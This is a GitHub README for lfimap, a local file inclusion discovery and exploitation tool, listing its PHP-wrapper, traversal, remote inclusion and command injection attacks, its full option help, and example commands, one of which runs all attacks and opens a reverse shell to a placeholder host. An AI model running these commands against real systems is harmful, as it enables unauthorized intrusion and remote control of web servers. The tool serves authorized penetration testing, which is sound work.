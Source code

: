 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- Attack with inclusion wrappers
    - Filter wrapper arbitrary file inclusion
    - Data wrapper remote command execution
    - Input wrapper remote command execution
    - Expect wrapper remote command execution
    - File wrapper arbitrary file inclusion
- Attack with path traversal
- Remote file inclusion
- Polyglot command injection check
- Heuristic scans
    - Polyglot XSS, CRLF checks
    - Open redirect check
    - Error-based info leak

- Testing modes
    - '-U' -> specify single URL to test
    -  '-F' -> specify wordlist of URLs to test
    - '-R' -> specify raw http from a file to test

- Full control over the HTTP request
    - Specification of parameters to test (GET, FORM-line, Header, custom injection point)
    - Specification of custom HTTP headers 
    - Ability to test with arbitrary form-line (POST) data
    - Ability to test with arbitrary HTTP method
    - Ability to pivot requests through a web proxy
    - Ability to tune testing with timeout in between requests and maximum response time, before giving up on it
    - Support for payload manipulation via url and base64 encoding(s)
    - Support to output all requests and responses to a file
    - Quick mode (-q), where LFImap uses fewer carefully selected payloads
    - 

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
 usage: lfimap.py [-U [url]] [-F [urlfile]] [-R [reqfile]] [-C <cookie>] [-D <data>] [-H <header>]
                 [-M <method>] [-P <proxy>] [--useragent <agent>] [--referer <referer>]
                 [--placeholder <name>] [--delay <milis>] [--max-timeout <seconds>]
                 [--http-ok <number>] [--force-ssl] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c]
                 [-file] [-heur] [-a] [-n <U|B>] [-q] [-x] [--lhost <lhost>] [--lport <lport>]
                 [--callback <hostname>] [-wT <path>] [--use-long] [--log <logfile>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

TARGET OPTIONS:
  -U [url]                 Specify single url to test
  -F [urlfile]             Specify multiple urls to test from a file
  -R [reqfile]             Specify single raw request to test from a file

GENERAL OPTIONS:
  -C <cookie>              Specify session Cookie header
  -D <data>                Specify request FORM-data
  -H <header>              Specify additional HTTP header(s)
  -M <method>              Specify request method to use for testing
  -P <proxy>               Specify proxy URL:PORT
  --useragent <agent>      Specify HTTP user-agent header value
  --referer <referer>      Specify HTTP referer header value
  --placeholder <name>     Specify custom testing placeholder name (default is "PWN")
  --delay <milis>          Specify delay in miliseconds after each request
  --max-timeout <seconds>  Specify number of seconds after giving up on a URL (default 5)
  --http-ok <number>       Specify http response code(s) to treat as valid
  --force-ssl              Force usage of HTTPS/SSL if otherwise not specified
  --no-stop                Don't stop using the same testing technique upon findings

ATTACK TECHNIQUE:
  -f, --filter             Attack using filter wrapper
  -i, --input              Attack using input wrapper
  -d, --data               Attack using data wrapper
  -e, --expect             Attack using expect wrapper
  -t, --trunc              Attack using path traversal with wordlist (default "short.txt")
  -r, --rfi                Attack using remote file inclusion
  -c, --cmd                Attack using command injection
  -file, --file            Attack using file wrapper
  -heur, --heuristics      Test for miscellaneous issues using heuristics
  -a, --all                Use all supported attack methods

PAYLOAD OPTIONS:
  -n <U|B>                 Specify payload encoding(s). "U" for URL, "B" for base64
  -q, --quick              Perform quick testing with fewer payloads
  -x, --exploit            Exploit and send reverse shell if RCE is available
  --lhost <lhost>          Specify local ip address for reverse connection
  --lport <lport>          Specify local port number for reverse connection
  --callback <hostname>    Specify callback location for rfi and cmd detection

WORDLIST OPTIONS:
  -wT <path>               Specify path to wordlist for path traversal modality
  --use-long               Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <logfile>          Output all requests and responses to specified file

OTHER:
  -v, --verbose            Print more detailed output when performing attacks
  -h, --help               Print this help message 
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
